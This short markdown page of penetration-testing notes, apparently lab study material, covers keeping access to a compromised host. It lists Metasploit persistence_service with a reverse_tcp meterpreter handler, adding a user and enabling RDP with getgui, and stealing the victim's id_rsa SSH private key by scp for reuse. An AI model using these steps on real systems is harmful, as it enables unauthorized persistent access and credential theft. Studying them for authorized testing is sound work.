 # Establishing Persistence in Windows
After gaining a foothold, you will need to establish persistence on the target

1. Gain access to meterpreter on host
2. Background session

Module: **exploit/windows/local/persistence_service**  
This will create a persistant service that is paired with meterpreter payload  
- remote_exe_name
- Remote_exe_path
- Service_Name -- most important. May only need this one
- set payload -- can only be windows/meterpreter/reverse_tcp

1. Setup Multi Handler - ```use multi/handler```
2. set Payload -- ```set payload windows/meterpreter/reverse_tcp```
3. set LHOST
4. run
You should immediately receive a meterpreter session

# Windows RDP Persistence
1. Enable RDP using Metasploit module  OR
2. Create user and enable RDP-- ```run getgui -e -u (username) -p (password)```
3. login -- ```xfreerdp /u:username /p:password /v:(target IP)```

# Persistence Va SSH keys
1. ssh student@(IP address)
2. type password

The private key is always listed in the .ssh folder  
named: id_rsa  

Transfer
1. scp student@(ip address):~/.ssh/id_rsa .
2. type password
3. chmod 400 id_rsa
4. login with private key -- ```ssh -i id_rsa student@(ipaddress)```
